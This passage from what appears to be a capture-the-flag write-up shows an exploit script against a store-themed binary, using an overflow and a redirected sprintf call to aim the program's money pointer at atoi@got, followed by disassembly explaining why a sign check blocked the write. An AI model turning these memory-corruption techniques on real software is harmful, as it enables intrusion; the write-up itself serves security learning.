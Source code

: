 ```
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    # 0x8049b64 is a pointer to 0x0804932e
    sendln('B'*(0x4f-4)+p(0x8049b64)) 

    # generate store menu & overflow; 2nd item now points to 0x8049b64: 0x0804932e -> sprintf function, used to overwrite ptr to money
    readtil('choice?')
    sendln('c') 
    
    readtil('choice?')
    sendln('d')
    readtil('choice?')
    sendln('b')
    print readtil('buy?')
    sendln('2')
    readtil('choice?')
    # get wholesale price, trigger function 0x0804932e
    sendln('b') 
    readtil('buy?')
    # this value is used as an argument for 0x0804932e, conveniently translated for us by atoi!
    # it is 0x804b280-51, so that the output of sprintf is aligned and will overwrite the money pointer with the address of atoi@got
    sendln('134525517') 
    readtil('choice?')

    # ok, now have control over ptr to money!
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    
    s.close()

pwn()
```

This allowed me to write to `atoi@got`! Or so I thought. The problem is that `atoi@got` contains `0xf74e2880`, which is atoi in libc. This number is interpreted by the program as a negative amount of money. When trying to modify the value at `atoi@got`, the value it contains is passed via this block of code:

```
 8048f6b: mov    edx,DWORD PTR ds:0x804b280 ; grab location of money DWORD from money pointer (it will point to atoi@got)
 8048f71: imul   eax,DWORD PTR [esi+0x74]   ; eax contains amount of item to buy, multiply it by price of item
 8048f75: mov    ecx,DWORD PTR [edx]        ; grab money amount
 8048f77: sub    ecx,eax                    ; subtract cost from amount of money
 8048f79: js     8049008 <exit@plt+0x838>   ; jump-if-sign: if the amount of leftover money is negative, abort the transaction!
```

